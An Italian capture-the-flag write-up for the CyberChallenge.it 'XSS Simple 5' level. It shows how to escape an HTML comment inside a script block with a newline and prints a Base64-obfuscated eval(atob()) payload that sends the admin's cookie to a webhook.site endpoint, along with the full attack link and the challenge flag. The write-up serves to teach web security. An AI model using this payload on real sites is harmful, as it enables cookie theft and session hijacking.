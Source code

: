 # Writeup: WS_3.05 - XSS Simple 5

**Descrizione**  
Siamo al quinto e ultimo livello della serie di challenge **XSS Simple**. In questa sfida, l’input fornito viene inserito all’interno di un blocco `<script>`, circondato da un commento multilinea (`<!-- ... -->`) e con una parte di testo che fa da contesto (`document.write('Hello world!'); // yep, we have reflection here. What can you do?`). L’obiettivo rimane ottenere il cookie dell’admin inviando un link “malevolo” tramite il form di “report”.

---

## Analisi del Codice Riflesso

Quando forniamo un parametro `?html=...`, il sito produce un output del tipo:
```html
<script><!--document.write('Hello world!'); // yep, we have reflection here. What can you do? <IL_NOSTRO_INPUT>--></script>
```
Questo significa che il nostro input finisce dentro un commento HTML (`<!-- ... -->`) all’interno di `<script>`. Se inseriamo semplicemente del codice JavaScript, rimarrebbe commentato e non verrebbe eseguito.

---

## Strategia di Evasione

1. **Interrompere il commento**: Possiamo utilizzare un carattere di nuova linea (`%0A`) per andare a capo e “chiudere” il commento, consentendo di inserire del codice eseguibile.
2. **Eseguire JavaScript**: Una volta fuori dal commento, possiamo utilizzare `eval(atob(...))` per decodificare in Base64 un payload che esegue un `fetch()` o simile.

### Esempio di Payload
```text
%0Aeval(atob('ZmV0Y2goYGh0dHBzOi8vd2ViaG9vay5zaXRlL2RlYTcwNTliLTIzNTgtNGE3Ni05NDQ1LWRmMmNlODUwN2Y2ZD9jb29raWU9JHtkb2N1bWVudC5jb29raWV9YCk7'));%0A
```
- **`%0A`**: Va a capo e chiude il commento `<!--`.
- **`eval(atob('...'))`**: Decodifica e esegue il JavaScript in Base64.
- **Codice Decodificato**: `fetch('https://webhook.site/dea7059b-2358-4a76-9445-df2ce8507f6d?cookie=${document.cookie}')`.

---

## Invio del Payload

Generiamo un link da passare nel form di “report”:
```
http://xss5.challs.cyberchallenge.it/?html=%0Aeval(atob('ZmV0Y2goYGh0dHBzOi8vd2ViaG9vay5zaXRlL2RlYTcwNTliLTIzNTgtNGE3Ni05NDQ1LWRmMmNlODUwN2Y2ZD9jb29raWU9JHtkb2N1bWVudC5jb29raWV9YCk7'));%0A
```
Quando l’admin carica il link, la porzione dopo `-->` (ottenuta grazie a `%0A`) viene eseguita come JavaScript, e il cookie dell’admin (contenente la flag) viene inviato al nostro endpoint (Webhook.site).

---

## Flag

Controllando il webhook, riceviamo la flag:

```
CCIT{b3535b8581413dead284efc6a5d1813a}
```

---

## Lezioni Apprese

1. **Uscita dal Commento**: Un commento HTML aperto in uno `<script>` può essere chiuso usando newline o altre tecniche, rendendo possibile l’esecuzione di codice.
2. **Base64**: `eval(atob(...))` continua a essere un metodo efficace per aggirare i filtri che cercano parole chiave JavaScript.
3. **Flessibilità dei Caratteri di Controllo**: Caratteri come `%0A` (newline) o `%0D` (carriage return) sono fondamentali per manipolare l’HTML/JS generato dal server.

---

*Writeup by Luca Crippa - Last Updated: 2024*
